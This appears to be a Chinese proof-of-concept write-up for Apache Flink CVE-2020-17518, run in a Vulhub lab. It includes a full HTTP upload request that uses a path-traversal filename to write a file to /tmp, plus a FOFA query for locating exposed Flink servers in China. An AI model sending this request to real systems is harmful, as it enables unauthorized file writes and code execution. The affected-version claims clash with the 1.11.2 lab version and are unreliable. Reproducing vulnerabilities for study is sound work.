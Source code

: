 # Apache Flink 小于1.9.1远程代码执行 CVE-2020-17518

## 漏洞描述

Apache Flink 是一个开源流处理框架，具有强大的流处理和批处理能力。

Apache Flink 1.5.1 引入了一个 REST 处理程序，可以通过恶意修改的 HTTP HEADER 将上传的文件写入本地文件系统上的任意位置。

Apache Flink的任意Jar包上传可以导致远程代码执行。

参考：

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## 漏洞影响

```
Apache Flink  <= 1.9.1(最新版本)
```

## FOFA

```
app="Apache-Flink" && country="CN"
```

## 环境搭建

Vulhub执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问`http://your-ip:8081`查看主页。

## 漏洞复现

### 上传文件

使用以下请求将文件上传到`/tmp/awesome_poc`：

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/awesome_poc"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

![image-20220223163924462](./images/202202231639569.png)

查看docker，`/tmp/awesome_poc`成功创建。

![image-20220223164054096](./images/202202231640168.png)

